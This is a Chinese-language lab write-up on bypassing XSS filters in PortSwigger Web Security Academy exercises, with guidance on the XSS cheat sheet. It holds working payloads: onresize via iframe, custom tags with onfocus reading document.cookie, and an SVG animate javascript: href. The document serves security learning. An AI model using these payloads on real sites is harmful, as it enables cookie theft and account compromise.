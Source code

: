 ### xss cheat sheet

[Cross-Site Scripting (XSS) Cheat Sheet - 2025 Edition | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

它包含了多种不同 xss 上下文用于构建攻击的 payload。

##### 简单使用 xss cheat sheet

![image-20250527165505004](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250527165505004.png)

首先左侧就是构造 payload 可选择的 tag，有时候网站对 tag 进行过滤时，可以将复制所有 tag 进行爆破观察相应，来检测没有给过滤的 tag。

观察 payload：

当你选中一些 tag 和 events 时，网页会认定你对想要获取的 payload 进行了过滤，如下就是选中了 tag=abbr，events=onanimationstart 的过滤，它会显示满足条件的 payload。

另外就是 payload 分为两类，如下图：

- 需要用户交互的 payload。
- 不需要用户交互的 payload。

![image-20250527165855816](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250527165855816.png)

此时你再点击 Copy events to clipboard，它只会复制过滤后列表中的所有 events，而不再是所有 events。如下是选中了 tag=abbr，events=onanimationstart 后复制所有事件的结果：

```
onanimationstart
oncontentvisibilityautostatechange(hidden)
onfocus(autofocus)
ontoggle(popover)
onwaiting(loop)
```

下图是 xss cheat sheet 的目录，以上仅仅介绍了目录中的 Event handlers 的用法，即如何筛选需要的 payload。其余内容观察目录即可。

![image-20250527170557313](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250527170557313.png)

下面几个靶场都将使用到 Event handlers 作为辅助。 

### 大多数标记和属性被阻止（iframe 配合 onresize 触发 payload）

![image-20250527101317716](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250527101317716.png)

![image-20250527101540868](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250527101540868.png)

```
# 这是从 Event handlers 找的一个 payload，依赖用户交互，需要用户在可编辑区域内输入内容才会触发。 
<body contenteditable onbeforeinput=alert(1)>test

contenteditable 属性的作用：这个属性让整个 <body> 区域变成可编辑状态，用户能够直接修改页面内容。
事件监听的问题：onbeforeinput 是一个事件监听属性，当用户在可编辑区域输入内容时，就会触发这个事件。
```

![image-20250527101831236](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250527101831236.png)

```
# 这是从 Event handlers 找的一个 payload，它依赖于页面出现变化而触发 payload。
# 不过可以使用 iframe 让页面出现变化，从而触发 payload。

<body onresize="alert(1)">
<body onresize="print()">
<iframe src="https://0a1700e804ad1198805f12ba006900b9.web-security-academy.net/?search=<body+onresize%3D'alert%281%29'>" onload=this.style.width='100px'></iframe>
<iframe src="https://0a1700e804ad1198805f12ba006900b9.web-security-academy.net/?search=<body+onresize%3D'print%28%29'>" onload=this.style.width='100px'></iframe>
恶意代码注入的可能性：如果这个 HTML 代码是动态生成的，并且在生成过程中没有对用户输入进行严格过滤，攻击者就可能通过注入恶意脚本来利用这个事件处理程序。

<iframe src="https://0a1700e804ad1198805f12ba006900b9.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

### 被阻止（使用用户自定义的标签触发 payload）

允许客户自定义的标签

![image-20250527104402709](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250527104402709.png)

```
<xss autofocus tabindex=1 onfocus=alert(document.cookie)></xss>

<iframe src="https://0a73001503aaa9c18004c6030039009e.web-security-academy.net/?search=%3Cxss+autofocus+tabindex%3D1+onfocus%3Dalert%281%29%3E%3C%2Fxss%3E"></iframe>


<script>
location = 'https://0a73001503aaa9c18004c6030039009e.web-security-academy.net/?search=%3Cxss+autofocus+tabindex%3D1+onfocus%3Dalert%28document.cookie%29%3E%3C%2Fxss%3E';
</script>
```

### 事件和属性被阻止（svg + animate 动态修改标签属性）

a 标签的 href 被加入黑名单，使用 svg 和 animate 动态改变 a 标签的 href 属性。

```html
<!-- a 标签没有被阻止，而绝大多属性被阻止 -->
<svg>
  <a>
    <animate attributeName="href" values="javascript:alert(1)" />
    <text x="20" y="20">Click me</text>
  </a>
</svg>
```

针对 svg 和 animate ，有如下说明：

- `<animate>` 是 SVG 规范的一部分，**必须在 `<svg>` 标签内使用**。
- `<animate>` 是 SVG 中用于创建属性动画的核心标签，它**只能修改元素的属性（attribute）**，无法直接添加或修改事件监听器（如 `onclick`）。

![image-20250527161100854](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250527161100854.png)

svg + animate 动态修改标签属性这种 xss 依赖于利用其它标签的属性（如：a 标签的 href 属性）进行攻击。



